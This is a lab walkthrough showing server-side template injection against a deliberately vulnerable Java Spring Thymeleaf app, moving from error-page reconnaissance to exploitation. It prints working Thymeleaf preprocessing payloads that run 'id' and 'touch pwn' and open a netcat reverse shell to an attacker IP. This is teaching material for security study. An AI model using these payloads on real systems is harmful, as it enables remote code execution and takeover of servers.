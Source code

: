 # Server Side Template Injection - SSTI

## Running the app on Docker

```
$ sudo docker pull <MISSING JAVA SSTI DOCKER>
```

```
$ sudo docker run -ti -p 127.0.19.1:5000:5000 <MISSING JAVA SSTI DOCKER>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

As with all reconnaissance we first have to determine the type of application that is running and the programming language it was written in. This could easily be achieved by setting up an intercepting proxy and study the requests and responses made by the application to the web server.

Also, trying to trigger error messages on the application can also give away a lot of information about the application under test.

On the landing page of the application, we have a page containing 2 links to different pages. Both redirects to an error page.

![](../../.gitbook/assets/java/SSTI/1.png)

On the error pages, we continue searching for initial clues to find an attack vector. We realize that changing value in the URL is reflected on the response of the error page.

![](../../.gitbook/assets/java/SSTI/2.png)

Let's play with URL a bit more to find out more information. In the screenshot below in the response of the error, we find that a Java backend is running, accompanied with the server "Tomcat". 

```
http://0.0.0.0:5000/error/test|
```

![](../../.gitbook/assets/java/SSTI/3.png)

Now, what we have is a reflected user input on the error page with 'HTTP 500' and it is a Java application running on Tomcat.


#### Step2

Now that we have determined the type of application that is running let's try to see if any user supplied input is accepted by the application. The input from the URL is being processed directly in the application and outputted in the HTML. So now we have control of whatever is being reflected on the page. How do we now determine if the application might be susceptible to Server Side Template Injection?

First we need to do some investigation on how the syntax works, so we dive into the docs!

{% hint style="info" %}
[https://www.thymeleaf.org/doc/tutorials/3.0/usingthymeleaf.html](https://www.thymeleaf.org/doc/tutorials/3.0/usingthymeleaf.html)
{% endhint %}

Java Spring Thymeleaf expressions can have the following types:

```
${...}: Variable expressions – in practice, these are OGNL or Spring EL expressions.
*{...}: Selection expressions – similar to variable expressions but used for specific purposes.
#{...}: Message (i18n) expressions – used for internationalization.
@{...}: Link (URL) expressions – used to set correct URLs/paths in the application.
~{...}: Fragment expressions – they let you reuse parts of templates.
```

Now, we want to use expressions to print to the template output to see if our payloads are interpreted and executed on the server-side by the templating engine. The most ideal way to do so is to inject mathematical statements.

As found in the docs:

```
@{( 4 + 4 )} is 8.
```

Let's see what happens when we inject the expression with the operator described above!

![](../../.gitbook/assets/java/SSTI/4.png)

## Exploitation

A nice write-ups about different type of payloads on Spring Thymeleaf engine is found here:

[https://github.com/veracode-research/spring-view-manipulation](https://github.com/veracode-research/spring-view-manipulation)

Thymeleaf template engine has a feature called expression preprocessing. Expressions placed between double underscores (&#95;&#95;...&#95;&#95;) are preprocessed and the result of the preprocessing is used as part of the expression during regular processing. Here is an example from Thymeleaf documentation:

```
#{populated.__${populate.code}__}
```

Thymeleaf first preprocesses ${populate.code}. Then, it uses the result (in this example it is a stored value ALL) as part of a real expression evaluated later (#{populated.ALL}).

Now, lets try some useful injections.

Running 'id' command on target server:

```
::__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7d__::

```

![](../../.gitbook/assets/java/SSTI/5.png)

Even tough the result is not seen in the frontend, we can see that 'id' command has been executed on the server logs.

![](../../.gitbook/assets/java/SSTI/6.png)

Running 'touch pwn' command on target server to create a file named 'pwn' on current running directory.
```
::__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22touch%20pwn%22).getInputStream()).next()%7d__::
```

![](../../.gitbook/assets/java/SSTI/7.png)

Running netcat command on target server to get a revershell to our attacking machine by using the payload below.
```
::__$%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22nc%20-c%20bash%20192.168.13.131%201337%22).getInputStream()).next()%7D__::
```

![](../../.gitbook/assets/java/SSTI/8.png)

Yes! We got the reverse shell and the control over the target machine.

## Additional sources

[https://github.com/veracode-research/spring-view-manipulation](https://github.com/veracode-research/spring-view-manipulation)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[https://www.thymeleaf.org/doc/tutorials/3.0/usingthymeleaf.html#what-is-thymeleaf](https://www.thymeleaf.org/doc/tutorials/3.0/usingthymeleaf.html#what-is-thymeleaf)
